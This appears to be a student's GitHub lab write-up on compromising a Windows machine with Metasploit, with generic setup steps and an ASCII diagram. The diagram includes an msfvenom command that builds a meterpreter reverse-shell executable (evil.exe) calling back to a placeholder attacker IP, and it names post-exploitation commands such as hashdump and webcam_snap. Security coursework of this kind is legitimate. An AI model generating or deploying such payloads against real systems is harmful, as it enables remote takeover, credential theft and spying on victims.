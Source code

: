 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By
#### Name:Eesha Ranka
#### Register Number:212224240040

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
```